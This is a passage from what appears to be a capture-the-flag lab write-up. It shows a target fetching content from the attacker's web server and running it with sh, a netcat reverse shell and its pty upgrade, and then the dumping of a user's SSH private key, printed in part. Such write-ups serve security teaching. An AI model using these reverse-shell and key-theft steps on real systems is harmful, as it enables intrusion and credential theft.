 The target connects back to our webserver grabs index.html and passes its contents to sh.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.48.111 - - [30/May/2021 12:27:29] "GET / HTTP/1.1" 200 -
```

This results in a reverse shell for us which we upgrade using python.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.48.111.
Ncat: Connection from 10.129.48.111:58738.
bash: cannot set terminal process group (1527): Inappropriate ioctl for device
bash: no job control in this shell
chiv@spider:/var/www/webapp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
chiv@spider:/var/www/webapp$ export TERM=xterm
export TERM=xterm
chiv@spider:/var/www/webapp$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

chiv@spider:/var/www/webapp$
```

We are now able to grab the user flag on the machine.

```
chiv@spider:~$ wc -c user.txt
33 user.txt
```

# Root
There is also an id_rsa in chiv's home directory which we can use to have an even better shell on the machine.

```
chiv@spider:~$ cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAmGvQ3kClVX7pOTDIdNTsQ5EzQl+ZLbpRwDgicM4RuWDvDqjV
gjWRBF5B75h/aXjIwUnMXA7XimrfoudDzjynegpGDZL2LHLsVnTkYwDq+o/MnkpS
U7tVc2i/LtGvrobrzNRFX8taAOQ561iH9xnR2pPGwHSF1/rHQqaikl9t85ESdrp9
MI+JsgXF4qwdo/zrgxGdcOa7zq6zlnwYlY2zPZZjHYxrrwbJiD7H2pQNiegBQgu7
BLRlsGclItrZB+p4w6pi0ak8NcoKVdeOLpQq0i58vXUCGqtp9iRA0UGv3xmHakM2
VTZrVb7Q0g5DGbEXcIW9oowFXD2ufo2WPXym0QIDAQABAoIBAH4cNqStOB6U8sKu
6ixAP3toF9FC56o+DoXL7DMJTQDkgubOKlmhmGrU0hk7Q7Awj2nddYh1f0C3THGs
hx2MccU32t5ASg5cx86AyLZhfAn0EIinVZaR2RG0CPrj40ezukWvG/c2eTFjo8hl
Z5m7czY2LqvtvRAGHfe3h6sz6fUrPAkwLTl6FCnXL1kCEUIpKaq5wKS1xDHma3Pc
XVQU8a7FwiqCiRRI+GqJMY0+uq8/iao20jF+aChGu2cAP78KAyQU4NIsKNnewIrq
54dWOw8lwOXp2ndmo3FdOfjm1SMNYtB5yvPR9enbu3wkX94fC/NS9OqLLMzZfYFy
f0EMoUECgYEAxuNi/9sNNJ6UaTlZTsn6Z8X/i4AKVFgUGw4sYzswWPC4oJTDDB62
nKr2o33or9dTVdWki1jI41hJCczx2gRqCGtu0yO3JaCNY5bCA338YymdVkphR9TL
j0UOJ1vHU06RFuD28orK+w0b+gVanQIiz/o57xZ1sVNaNOyJUlsenh8CgYEAxDCO
JjFKq+0+Byaimo8aGjFiPQFMT2fmOO1+/WokN+mmKLyVdh4W22rVV4v0hn937EPW
K1Oc0/hDtSSHSwI/PSN4C2DVyOahrDcPkArfOmBF1ozcR9OBAJME0rnWJm6uB7Lv
hm1Ll0gGJZ/oeBPIssqG1srvUNL/+sPfP3x8PQ8CgYEAqsuqwL2EYaOtH4+4OgkJ
mQRXp5yVQklBOtq5E55IrphKdNxLg6T8fR30IAKISDlJv3RwkZn1Kgcu8dOl/eu8
gu5/haIuLYnq4ZMdmZIfo6ihDPFjCSScirRqqzINwmS+BD+80hyOo3lmhRcD8cFb
0+62wbMv7s/9r2VRp//IE1ECgYAHf7efPBkXkzzgtxhWAgxEXgjcPhV1n4oMOP+2
nfz+ah7gxbyMxD+paV74NrBFB9BEpp8kDtEaxQ2Jefj15AMYyidHgA8L28zoMT6W
```